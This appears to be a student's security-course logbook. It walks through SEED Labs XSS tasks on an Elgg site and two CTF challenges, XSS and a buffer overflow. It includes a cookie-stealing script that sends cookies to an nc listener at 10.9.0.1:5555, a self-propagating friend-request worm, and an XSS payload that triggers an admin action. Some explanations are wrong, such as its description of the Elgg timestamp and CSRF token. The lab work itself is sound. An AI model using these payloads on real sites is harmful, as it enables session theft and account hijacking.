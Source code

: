 # LOGBOOK10

## Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

> The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed.

The first step is to log in to the Elgg website as one of the given users, we used the credentials `samy` `seedsamy` to log in as Samy. Then, navigating to the Profile page, then the Edit Profile page and typed the code `<script>alert('XSS');</script>` into one of the profile fields that is loaded on the Profile page, as this is required for the script to be run when other users visit it.

![](https://i.imgur.com/JpGuXYX.png)

After saving, when visiting this user's page as any user, the alert is shown.

![](https://i.imgur.com/DweiaHs.png)


### Task 2: Posting a Malicious Message to Display Cookies

> The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. 

Following the same steps as the previous task, only by using the following code `<script>alert(document.cookie);</script>`, the user's cookies will be shown. The Elgg variable which is probably the site's user session cookie is different for every user that triggers this action, as one would expect.

![](https://i.imgur.com/kqcJgBH.png)


![](https://i.imgur.com/KaIpj1g.png)


### Task 3: Stealing Cookies from the Victim’s Machine

> In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to himself/herself.

The first step is to setup a terminal that will listen to the request with the 'stolen' information. We do this with the following command: `nc -l 5555`
Then we setup the attack, by editing Samy's profile with the following code, that will embed the user's cookies on an `<img>` tag, that upon being loaded sends this information to the attacker:

`<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '   >');</script>`

![](https://i.imgur.com/N1KVI6g.png)

The user's cookies are visible in the GET request's data.

### Task 4: Becoming the Victim’s Friend

> In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page.

The first step is to find out the structure of a friend request sent by the website. This is done using the recommended firefox extension HTTP Header Live.

![](https://i.imgur.com/mMFQzBc.png)

From inspecting the caught request, this is the result:

`http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1641337053&__elgg_token=QKGYnXwM5i319NhplqNrsw&__elgg_ts=1641337053&__elgg_token=QKGYnXwM5i319NhplqNrsw`

Evidently, the arguments needed for a friend request are the target user's ID, the timestamp and the token of the user sending the request. 
After inspecting Samy's profile page to find his ID, we can change our payload building code:


``` 
<script type="text/javascript">
window.onload = function() {
	var Ajax = null;

	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;

	// Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=" + "59" + ts + token + ts + token; 

	// Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```

We can then embed this script in Samy's page (be it by using the 'About Me' section's HTML edit zone or other fields like the 'Brief Description' field). After this, any user that visits his page and unwillingly executes this code will send a request to Samy and become his friend.

#### Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
Line 1 corresponds to the timestamp. It is necessary to allow the client to adjust its retransmission intervals.

Line 2 is the Elgg token. It allows the user to fetch resources without the need to use their login information constantly, as it is set upon login and stored in the browser's cookies.

#### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

The "About Me" section uses a rich-text editor that is doing some input sanitization, namely to disallow the use of the normal `<>` characters. With this, HTML tags can't be created and thus, code cannot be inserted by just typing it into the field. However, we found that by editing the HTML div itself with our malicious code, this step could be circunvented, and an attack still executed.

![](https://i.imgur.com/L3qDqna.png)


![](https://i.imgur.com/wsMDhth.png)


## CTF Semana 10

### Desafio 1

The way to the flag in this challenge is to make the administrator aprove our request. We have access to the same page the administrator does, and we can see that there are 2 buttons, one that aproves the request for a flag and one that doesn't. All we have to do is change the behaviour of the latter to execute the behaviour of the former.

The input is clearly vulnerable to an XSS attack, since no sanitization is done to it. Thus, we can insert code that will be ran on load and will change the behaviour of the 'Mark request as read' button to the one of the 'Give the flag' button.

```
<script>
window.onload = function() { 
    var flag = document.getElementById('giveflag'); 
    var button = document.getElementById('markAsRead'); 
    button.disabled = false; 
    button.onclick = flag.click(); 
    button.parentElement.parentElement.action="" 
} 
</script>
```

We got the flag `flag{609b640aba15d02ae72968b32da93e19}`

![](https://i.imgur.com/zDpHWp7.png)

## Desafio 2

First off, by running checksec we can see that the program has no canaries, RELRO and NX disabled, but has PIE. This means that the program can be ran anywhere in memory, or doesn't need to be in an absolute position to work.

![](https://i.imgur.com/uFZnZWO.png)

By inspecting the code, we find a vulnerability on line 12, the call `gets(buffer)` will read until a newline or EOF is found, giving way to a buffer overflow.

The fact the program has PIE enabled will make it so we can't predict where the target buffer will be in memory, and in the script we'll need to read the information the program prints on line 8.

The next step is calculating the difference between the `$ebp` and the frame address using gdb, which in this case was 104

![](https://i.imgur.com/0z58J4Y.png)


The updated code, with the fetching of the address from the output and with the new offset.

![](https://i.imgur.com/Wfmueso.png)


Running the program on the server, we got the flag `flag{210bf4154052cab93637d622bb8e39e5}`
![](https://i.imgur.com/0WZKJ4V.png)
